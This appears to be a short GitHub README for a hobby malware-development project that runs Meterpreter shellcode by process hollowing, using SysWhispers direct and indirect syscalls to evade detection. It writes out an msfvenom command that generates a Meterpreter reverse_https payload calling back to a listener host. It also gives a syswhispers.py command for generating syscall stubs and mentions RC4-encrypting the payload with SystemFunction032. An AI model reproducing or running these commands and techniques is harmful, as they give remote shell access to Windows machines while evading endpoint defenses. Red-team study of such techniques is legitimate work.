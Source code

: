 # Overview
HUGE thank you to the Syswhipsers project and the MALDEV Academy team for getting my excited about these kinds of projects!

The `Syswhispers` branch is the syswhipers implementation

The `Indirect` branch is my attempt at an indirect systemcall implementation to run meterpreter shellcode via process hollowing

# Misc

Generating the syswhipers code:
```
python3 syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtResumeThread,NtWriteVirtualMemory,NtAllocateVirtualMemory,NtProtectVirtualMemory,NtReadVirtualMemory -o /home/noah/Desktop/MALDEV/modules/ProcessHollowing/syswhispers3_files -v
```
Payload:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.0.0.128 lport=443 exitfunc=thread -f raw > payload.raw
```

Payload into HellShell Rc4 decryptor using `SystemFunction032`
